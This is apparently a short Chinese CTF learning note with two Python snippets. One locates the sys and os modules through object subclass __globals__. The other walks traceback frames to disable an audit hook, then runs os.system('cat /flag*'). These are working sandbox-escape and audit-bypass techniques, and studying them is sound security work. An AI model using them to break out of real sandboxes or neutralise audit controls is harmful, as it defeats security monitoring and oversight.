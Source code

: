 写了个脚本, 用来搜索可以用这个方法导入的模块. (因为不同python版本的偏移可以不一样)

```python
classes = ''.__class__.__base__.__subclasses__()

sys_not_found = True
os_not_found = True

for (idx, c) in enumerate(classes):
    i = c.__init__
    if "__globals__" not in dir(i):
        continue
    g = i.__globals__
    if sys_not_found and 'sys' in g:
        print(f"sys = classes[{idx}].__init__.__globals__['sys']")
        sys = g['sys']
        sys_not_found = False
    if os_not_found and 'os' in g:
        print(f"os = classes[{idx}].__init__.__globals__['os']")
        os = g['os']
        os_not_found = False
    if os_not_found and '_os' in g:
        print(f"os = classes[{idx}].__init__.__globals__['_os']")
        os = g['_os']
        os_not_found = False
    if sys_not_found or os_not_found:
        continue
    break
print(sys)
print(os)
os.system("echo hello wxk")
```


定位到`__main__`模块的方法是通过触发报错然后在调用栈(tarceback)上搜索(又学到了)

代码如下:

```python
try:
    raise Exception()
except Exception as e:
    _, _, tb = sys.exc_info()
    nxt_frame = tb.tb_frame

    # Walk up stack frames until we find one which
    # has a reference to the audit function
    while nxt_frame:
        if 'audit' in nxt_frame.f_globals:
            break
        nxt_frame = nxt_frame.f_back

    # Neuter the __exit function
    nxt_frame.f_globals['__exit'] = print

    # Now we're free to call whatever we want
    os.system('cat /flag*')
```
